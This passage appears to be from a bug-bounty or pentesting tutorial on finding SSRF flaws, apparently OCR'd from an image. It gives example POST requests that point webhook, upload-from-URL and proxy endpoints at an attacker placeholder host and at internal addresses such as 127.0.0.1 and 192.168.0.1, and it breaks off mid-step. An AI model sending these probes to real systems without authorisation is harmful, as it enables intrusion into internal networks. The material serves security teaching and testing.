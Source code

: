 **Potential SSRF Endpoints**

Add a new webhook: 

```jsx
POST /webhook
Host: public.example.com
(POST request body)
url=https://www.attacker.com
```

File upload via URL:

```jsx
POST /upload_profile_from_url
Host: public.example.com
(POST request body)
user_id=1234&url=https://www.attacker.com/profile.jpeg
```

Proxy service: [https://public.example.com/proxy?url=https://google.com](https://public.example.com/proxy?url=https://google.com)

.

.

### Step 2: Provide Potentially Vulnerable Endpoints with Internal URLs

Depending on the network configuration, you might need to try several addresses before you find the
ones in use by the network. Here are some common ones reserved for the private network: `localhost`, `127.0.0.1`, `0.0.0.0`, `192.168.0.1`, and `10.0.0.1`.

To illustrate, this request tests the webhook functionality:

```jsx
POST /webhook
Host: public.example.com
(POST request body)
url=https://192.168.0.1
```

This request tests the file upload functionality:

```jsx
POST /upload_profile_from_url
Host: public.example.com
(POST request body)
user_id=1234&url=https://192.168.0.1
```

And this request tests the proxy service: [https://public.example.com/proxy?url=https://192.168.0.1](https://public.example.com/proxy?url=https://192.168.0.1)

### Step 3: Check the Results

For example, does the response contain service banners or the content of internal pages? A service banner is
the name and version of the software running on the machine. Check for this by sending a request like this:
